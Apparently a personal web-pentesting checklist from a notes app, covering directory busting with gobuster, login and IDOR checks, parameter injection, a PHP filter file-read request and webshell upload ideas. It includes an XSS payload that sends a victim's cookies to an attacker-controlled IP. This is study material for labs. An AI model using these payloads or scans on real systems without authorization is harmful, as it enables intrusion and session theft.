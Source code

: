 Quick check:
	is there a login?
		try admin, administrator..
		try sqli

`gobuster dir -r -u http://server.com -w /usr/share/wordlists/seclists/Discovery/Web-Content/quickhits.txt -t 30 -e`

`gobuster dir -r -u http://server.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -e` 

`gobuster dir -k -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -t 20 -u http://10.10.10.10`

`gobuster vhost -r -u http://10.10.10.10 --domain server.com -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -t 30`




What's running:
	check nmap
	look at web page
	view source code
	burp
		check X-Powered-By header

robots.txt

check source for
	links to "hidden" pages like admin-panels
	passwords
	hints
	parameters
	mail addresses of users and admins/support/privileged users

go to the url for folders used on the site to check for file listings and other files
	especially if they are called files

list possible users and usernames
	validate?
		login form
		registation form

login
	second step of mfa can sometimes be bypassed by just going to a page requiring the access
	

check for IDOR
	numbers
	random ids
	...

Google
	"technology/framework" exploit
	poc
	cve

What's the file structure
	check common ones
		admin, 
	Directory busting
	[[InfoSec/Tools n Info/02 - Web Exploration/Fuzzing/gobuster|gobuster]]
	[[Fuzzing/feroxbuster|feroxbuster]]

virtual hosts

checking for REST Endpoints or GET/POST parameters to exploit
	are there forms
	.ajax() call (if jQuery)
	.fetch 
	in browser
		forms: we find on the webpage - open the network tab in the dev tools of the browser - send off the form - see where the connection goes to in the network tab

Checking for REST Endpoints in the information we collected (source code or directory busting)

Parameters & Injections
	try making parameters arrays by adding `[]` before = like `username[]=whatever`
		also try adding more than one value, for example for e-mail addresses
			`'user[email][]': [self.target, self.evil]`
	try changing id= 1 to 2 ... '
	"/item/13" <- change the 13 to 1 or 0
	html injections
		`<img src='http://10.10.14.156:8000/dog.jpg'>`
		`<img src='a' onerror='var i=new Image;i.src="http://10.10.14.156:8000/?"%2bdocument.cookie;'>`
	SQLi
	commands in the os's shell
	commands in programming language

Where ^
	forms
	parameters in url

PHP filter
	PHP://filter/convert.base64-encode/resource=
	example: `GET /test.php?view=PHP://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php HTTP/1.1`



webshell or revshell upload
	use what the system is built on; php, python django, vbscript node.js... perl might also work


Run scanners:
	`nikto -h http://whatever.thm`
	`whatweb -a 4 http://dailybugle.thm`
	``

https://owasp.org/www-project-web-security-testing-guide/latest/

